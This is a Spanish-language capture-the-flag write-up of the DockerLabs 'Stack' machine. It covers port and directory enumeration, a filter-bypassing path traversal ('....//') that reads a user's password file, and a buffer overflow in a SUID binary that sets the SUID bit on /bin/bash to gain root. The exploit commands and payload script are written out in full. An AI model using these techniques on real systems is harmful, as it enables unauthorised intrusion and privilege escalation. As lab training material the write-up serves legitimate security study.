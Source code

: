 #MAQUINA #DOCKERLABS #MEDIO 
#LFI
<hr>
# RECONOCIMIENTO

Vamos a resolver **Stack** de la plataforma **DockerLabs**.

   ```bash

Máquina desplegada, su dirección IP es --> 172.17.0.2

```

Primero vamos a hacer un escaneo de puertos rápido:

```bash

nmap -sS -vvv -p- --min-rate 5000 -n -Pn 172.17.0.2
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-26 09:39 CET
Initiating ARP Ping Scan at 09:39
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 09:39, 0.04s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 09:39
Scanning 172.17.0.2 [65535 ports]
Discovered open port 80/tcp on 172.17.0.2
Discovered open port 22/tcp on 172.17.0.2
Completed SYN Stealth Scan at 09:39, 0.51s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000030s latency).
Scanned at 2025-02-26 09:39:37 CET for 1s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.72 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)




```

- **`--open`**: Muestra solo los puertos abiertos en la salida.
- **`-sS`**: Especifica un escaneo TCP SYN, que es más sigiloso que un escaneo de conexión completa.
- **`--min-rate 5000`**: Establece la tasa mínima de paquetes enviados a 5000 por segundo, haciendo que el escaneo sea más rápido.
- **`-vvv`**: Aumenta el nivel de verbosidad, proporcionando una salida más detallada durante el escaneo.
- **`-n`**: No resuelve DNS; esto evita retrasos por búsquedas de nombres.
- **`-Pn`**: Trata el objetivo como si estuviera en línea; omite el descubrimiento de hosts.
- **`-p-`**: Escanea todos los 65535 puertos en lugar de solo los más comunes.

**Conclusiones:** El ttl al ser 64 nos dice que es una máquina **Linux**. Además, vemos que tiene los puertos **22(SSH),** **80(HTTP)** abiertos.

Ahora vamos a hacer un escaneo con mayor detalle:

   ```bash

nmap -sCV -p22,80 172.17.0.2                    
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-26 09:40 CET
Nmap scan report for 172.17.0.2
Host is up (0.000015s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 85:7f:49:c5:89:f6:ce:d2:b3:92:f1:40:de:e0:56:c4 (ECDSA)
|_  256 6d:ed:59:b8:d8:cc:50:54:9d:37:65:58:f5:3f:52:e3 (ED25519)
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-title: Web en producci\xC3\xB3n
|_http-server-header: Apache/2.4.62 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.51 seconds




```

```bash

nmap --script="http-enum" 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-26 09:40 CET
Nmap scan report for 172.17.0.2
Host is up (0.0000030s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.48 seconds




```

- **`-sC`**: Realiza un escaneo de scripts (Nmap Scripting Engine, NSE). Esto permite ejecutar scripts de `nmap` para obtener información adicional sobre los servicios detectados, como vulnerabilidades, configuraciones o detalles específicos de los mismos.
- **`-sV`**: Realiza la detección de versiones de servicios. Esto intenta identificar la versión exacta del software que está escuchando en un puerto abierto, lo que puede ayudar a determinar si hay vulnerabilidades conocidas.
- **`--script`**:  Ejecutar un script específico.


## HTTP (80)

Al hacer Ctrl + U al entrar :

```bash
        <!--Mensaje para Bob: hemos guardado tu contrase�a en /usr/share/bob/password.txt-->
```

Usamos **gobuster** para enumerar:

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x html,php,js,txt,png,jpg 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,js,txt,png,jpg
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 275]
/.php                 (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 417]
/file.php             (Status: 200) [Size: 0]
/javascript           (Status: 301) [Size: 313] [--> http://172.17.0.2/javascript/]
/note.txt             (Status: 200) [Size: 110]
/.html                (Status: 403) [Size: 275]
/.php                 (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 1543913 / 1543920 (100.00%)
===============================================================
Finished
===============================================================
```

Vemos una nota :

```bash
Hemos detectado el LFI en el archivo PHP, pero gracias a str_replace() creemos haber tapado la vulnerabilidad
```

Hay un posible **LFI**.

# EXPLOTACION

Usamos **wfuzz** para encontrar el parámetro:

```bash
wfuzz -u "http://172.17.0.2/file.php?FUZZ=note.txt" -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt --hl=0
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://172.17.0.2/file.php?FUZZ=note.txt
Total requests: 207643

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                  
=====================================================================

000000741:   200        1 L      17 W       110 Ch      "file"

```

Podemos ver que no podemos hacer uso de cadenas para intentar ejecutar comandos remotamente.

Vamos a intentar escapar de ese str_replace.

Probando veo que si meto doble doble punto y doble barra, me escapo:

```bash
http://172.17.0.2/file.php?file=....//....//....//....//....///usr/share/bob/password.txt
llv6ox3lx300
```

YA ESTAMOS COMO BOB.

# ESCALADA PRIVILEGIOS

Vemos si el usuario tiene permisos SUID sobre algo:

   ```bash
bob@dada52a04e82:/opt$ find / -perm -4000 2>/dev/null
/opt/command_exec
/usr/bin/su
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/umount
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/chsh
/usr/lib/openssh/ssh-keysign
```

Vemos **command_exec** y al ejecutarlo :

```bash
bob@cbd0c0c8c355:/opt$ ./command_exec 
Escribe la contraseña: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Estás en modo usuario (key = 41414141)
key debe valer 0xdead para entrar al modo administrador
Segmentation fault

```

Vemos que necesitamos 76 A para sobreescribir la variable:

```bash
python -c "print('A'*76 + 'BBBB')" | ./command_exec 

Escribe la contraseña: Estás en modo usuario (key = 42424242)
key debe valer 0xdead para entrar al modo administrador

```

Escribimos nuestro script :
```bash
bob@cbd0c0c8c355:~$ cat script.py 
#!/usr/bin/env perl
$|=1;

$payload = "A" x 76;
$payload .= pack("Q",0xdead);

print $payload;
```

Lo ejecutamos y le ponemos SUID a la bash :
```bash

bob@cbd0c0c8c355:~$ (./script.py ; cat) | /opt/command_exec 
Escribe la contraseña: f
Estás en modo administrador (key = dead)
Escribe un comando: chmod +s /bin/bash

bob@cbd0c0c8c355:~$ ls /bin/bash
/bin/bash
bob@cbd0c0c8c355:~$ /bin/bash -p
bash-5.2# whoami
root
bash-5.2# 

```

**YA ESTAMOS COMO ROOT.**

